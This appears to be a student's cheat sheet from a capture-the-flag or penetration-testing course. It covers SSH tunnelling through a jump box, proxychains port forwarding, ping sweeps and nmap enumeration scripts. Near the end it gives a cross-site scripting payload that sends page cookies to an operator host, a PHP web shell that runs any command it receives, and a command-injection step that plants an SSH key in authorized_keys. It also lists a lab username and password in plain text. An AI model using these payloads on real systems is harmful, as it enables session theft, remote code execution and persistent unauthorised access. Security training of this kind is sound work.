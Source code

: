 #   SETUP
```
CTF Exploit Research HAS ONLY 1!!!!! ATTEMPT LEFT
https://sec.cybbh.io/public/security/latest/index.html
Stack Number	Username	  Password	        jump
2 	          ALFA-007-M 	SiatKd1eRB2Q4ns 	10.50.33.233 (only running ping from jump box)
http://10.50.20.103:8000/
Linux Ops 10.50.27.254               Windows Ops 10.50.31.208
```

#  NMAP
```
NMAP scripting engine location /usr/share/nmap/scripts
```
#  USAGE & EXAMPLES 
```
-nmap --script <filename>|<category>|<directory>
-nmap --script-help "ftp-* and discovery"
-nmap --script-args <args>
-nmap --script-args-file <filename>
-nmap --script-help <filename>|<category>|<directory>
-nmap --script-trace
```
#  Master Socket ssh to jump
```
ssh -MS /tmp/jump student@10.50.33.233
```
#  PingSweep
```
for i in {97..126}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
```
#  Set Up Dynamic Port forward 
```
-S for socket file
-O for forward options
-D9050 proxychains
requires a filler word to act as credentials (in this case its jump)
ssh -S /tmp/jump jump -O forward -D9050
```
#  Port Interro
```
proxychains nc <ip> <port>
```
#  Multiple port forward with Socket
```
ssh -S /tmp/jump jump -O forward -L1111:192.168.28.100:80 -L2222:192.168.28.100:2222 -L3333:192.168.28.111:80 -L5555:192.168.28.111:2222
```
#  SSH with Master Socket Tunnel
```
ssh -MS /tmp/t1 creds@127.0.0.1 -p 2222 
```
#  Assuming net net and new ports found
```
PingSweep
```
# port forward
```
ssh -S /tmp/t1 t1 -O forward -D9050 (previous dynamic port must be canceled ssh -S /tmp/jump jump -O cancel -D99050)
```
# nmap port scan
```
proxychains nmap <ip> (80 & 2222 found)
```
# port interro
```
proxychains nc <ip> <port>
```
# Port Forward
```
ssh -S /tmp/t1 t1 -O forward -L2323:ip:2222 -L4343:100.200.25.35:80
```
# Authenticate to new ssh with ssh
```
ssh -MS /tmp/t2 creds@127.0.0.1 -p 2323
```
# To get to fowarded web ports
```
On firefox type loopback followed by colon and fowarded port (127.0.0.1:port)
```
#  Proxychains with http script
```
proxychains nmap --script=http-enum.nse 192.168.28.100
ssh root@10.50.24.104 -D 9050

proxychains nmap -Pn -T5 -sT -p 80 --script http-enum.nse <IP>

proxychains nmap -Pn -T5 -sT -p 80 --script http-sql-injection.nse <IP>

proxychains nmap -Pn -T5 -sT -p 80 --script http-robots.txt.nse <IP>
```
#   Outcome
```
directories within website that can be further enumerated
```

```
<script>document.location="http://10.50.27.254:8000/"+document.cookie;</script>
```

#  Malicious file upload script
```
  <HTML><BODY>
  <FORM METHOD="GET" NAME="myform" ACTION="">
  <INPUT TYPE="text" NAME="cmd">
  <INPUT TYPE="submit" VALUE="Send">
  </FORM>
  <pre>
  <?php
  if($_GET['cmd']) {
    system($_GET['cmd']);
    }
  ?>
  </pre>
  </BODY></HTML>
```

#  upload copy of ssh rsa token
```
ssh-keygen  -t rsa -b 4096
cat rsa key
; echo "<rsa key>" >> /var/www/.ssh/authorized_keys
ssh into web server
```



































